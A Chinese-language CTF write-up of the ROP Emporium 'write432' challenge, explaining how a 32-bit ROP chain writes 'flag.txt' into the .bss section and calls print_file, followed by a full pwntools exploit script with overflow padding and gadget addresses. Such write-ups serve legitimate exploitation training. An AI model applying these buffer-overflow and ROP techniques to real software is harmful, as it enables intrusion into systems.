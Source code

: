# write432

> 我们需要执行print_file("flag.txt")，32位要用栈传递参数。

1. 把bss的首地址传给%edi，把'flag'传给%ebp，然后把%ebp（'flag'）传递给%edi所指向的地址，即bss的首地址。

2. 同理，把bss+4的地址传给%edi，把'.txt'传给%ebp，然后把%ebp（'.txt'）传递给%edi所指向的地址，即bss+4。

3. 同理，把bss+8的地址传给%edi，把'\0'传给%ebp，然后把%ebp（'\0'）传递给%edi所指向的地址，即bss+8。

4. 最后，调用print_file()，参数地址设置在bss段首地址。

Exp:
```python
import pwn
  
pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./write432')
e = pwn.ELF('./write432')
libwrite432 = pwn.ELF('./libwrite432.so')

print_file_plt = pwn.p32(e.plt['print_file'])
bss_addr = e.bss()                          # bss段的首地址
pop_edi_ebp_addr = pwn.p32(0x080485aa)        # pop edi ; pop ebp ; ret
mov_ebp__edi__addr = pwn.p32(0x08048543)      # mov %ebp (%edi) ; ret 

'''
for k, v in e.sym.items():
    print(k, hex(v))
'''

# pwn.gdb.attach(p)

payload = b'A' * 0x28 + b'B' * 4 + pop_edi_ebp_addr + pwn.p32(bss_addr) + b'flag' + mov_ebp__edi__addr  
#                                           #  pop bss_addr to edi  | pop 'flag' to ebp  | mov 'flag' to (%edi) -> bss_addr
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 4) + b'.txt' + mov_ebp__edi__addr
#                           #  pop bss+4 to edi  | pop '.txt' to ebp  | mov '.txt' to (%edi) -> bss+4
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 8) + pwn.p32(0) + mov_ebp__edi__addr
#                           #  pop bss+8 to edi  | pop '\0' to ebp  | mov '\0' to (%edi) -> bss+8
payload += print_file_plt + b'RRRR' + pwn.p32(bss_addr)                                                 
#                                #  bss_addr = 'flag.txt\0'
p.sendlineafter(b'> ', payload)
p.recv()
```